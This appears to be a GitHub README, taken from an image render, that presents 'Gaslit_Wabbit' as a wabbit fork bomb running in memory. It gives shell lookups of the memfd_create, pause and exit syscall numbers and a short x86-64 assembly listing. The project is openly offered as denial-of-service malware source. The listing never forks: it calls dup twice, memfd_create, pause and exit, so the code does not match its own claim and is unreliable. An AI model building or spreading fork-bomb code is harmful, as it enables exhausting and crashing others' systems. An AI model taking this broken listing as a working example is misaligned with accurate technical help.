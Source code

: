 # Gaslit_Wabbit
1978 wabbit fork bomb running in Ram

first we get the syscall numbers for
- memfd_create
- pause
- exit

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep memfd_create
```
```shell
#define __NR_memfd_create 319
```

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep pause
```
```shell
#define __NR_pause 34
```

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep exit
```
```shell
#define __NR_exit 60
```
```asm
BITS 64
global _start
section .text
_start:
        xor rax, rax
        xor rdi, rdi
        mov di, 10
        mov rax, 0x20
        syscall
        xor rax, rax
        inc rdi
        mov rax, 0x20
        syscall
memfd_create:
        push 0x78436f73
        mov rdi, rsp
        mov rsi, 0
        mov rax, 319
        syscall
pause:
        mov rax, 34
        syscall
exit:
        xor rax, rax
        add rax, 60
        xor rdi, rdi
        syscall
```